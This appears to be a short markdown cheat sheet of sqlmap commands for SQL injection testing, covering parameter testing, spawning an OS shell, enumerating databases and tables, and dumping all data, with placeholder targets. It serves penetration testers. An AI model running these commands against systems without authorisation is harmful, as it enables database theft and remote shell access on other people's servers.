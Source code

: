 # SQLMAP

```bash
$ sqlmap -h
$ sqlmap -hh
```

### Wizard

```bash
$ sqlmap --wizard
```

# Simple Commands examples

```bash
# Multiple test with parameters
$ sqlmap -u <url> --data=<string_post> --level=<level>
$ sqlmap -u <url> --data="id=1"

# Try to spawn shell
$ sqlmap -u <url> --data=<string_post> --os-shell
```

---

# Process GET and POST

Capture request with Burp and save result in file (for the post requests).

Find DB

```bash
$ sqlmap -u <url> --dbs
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```


Find tables

```bash
$ sqlmap -u <url> -D <database_name> --tables
# OR
$ sqlmap -r <request_file> -p <vulnerable_parameter> -D <db_name> --tables
```

Extract tables 

```bash
$ sqlmap -u <url> -D <db_name> -T <table_name> --columns
# OR
$ sqlmap -r <request_file> -D <database_name> -T <table_name> --columns
```

---

Dump all databases and tables 

```bash
$ sqlmap -u <url> -D <database_name> --dump-all
# OR
$ sqlmap -r <request_file> -D <database_name> --dump-all
```
